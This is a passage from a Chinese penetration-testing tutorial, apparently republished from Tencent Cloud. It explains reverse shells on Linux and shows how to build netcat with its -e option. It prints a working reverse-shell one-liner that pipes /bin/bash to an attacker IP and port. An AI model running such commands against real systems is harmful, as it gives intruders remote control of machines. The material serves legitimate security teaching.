 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [cloud.tencent.com](https://cloud.tencent.com/developer/article/1818091)

> 在渗透测试实战中，我们经常会遇到 Linux 系统环境，而让 Linux 主机反弹个 shell 是再常见不过的事情了。

![](https://ask.qcloudimg.com/http-save/yehe-5957324/48ztrxfjio.jpeg)

**前言**
------

在[渗透测试](https://cloud.tencent.com/product/wpt?from_column=20065&from=20065)实战中，我们经常会遇到 Linux 系统环境，而让 Linux 主机反弹个 shell 是再常见不过的事情了。

反弹 shell，就是攻击机监听在某个 TCP/UDP 端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机。

### **正向连接**

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标 ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web 服务、ssh、telnet 等等都是正向连接。

### **反向连接**

那么为什么要用反弹 shell 呢？

反弹 shell 通常适用于如下几种情况：

• 目标机因防火墙受限，目标机器只能发送请求，不能接收请求。• 目标机端口被占用。• 目标机位于局域网，或 IP 会动态变化，攻击机无法直接连接。• 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。•......

对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

那么反向连接就很好理解了，就是攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，即为反向连接。

反弹 shell 的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有 netcat，那我们就可以利用 netcat 反弹 shell，如果具有 python 环境，那我们可以利用 python 反弹 shell。如果具有 php 环境，那我们可以利用 php 反弹 shell。

**利用 netcat 反弹 shell**
----------------------

Netcat 是一款简单的 Unix 工具，使用 UDP 和 TCP 协议。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。使用它你可以轻易的建立任何连接。

目前，默认的各个 linux 发行版本已经自带了 netcat 工具包，但是可能由于处于安全考虑原生版本的 netcat 带有可以直接发布与反弹本地 shell 的功能参数 -e 都被阉割了，所以我们需要自己手动下载二进制安装包，安装的如下：

```
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gztar -xvzf netcat-0.7.1.tar.gz./configuremake && make installmake clean

```

安装完原生版本的 netcat 工具后，便有了 netcat -e 参数，我们就可以将本地 bash 反弹到攻击机上了。

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
netcat 47.xxx.xxx.72 2333 -e /bin/bash# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash

```

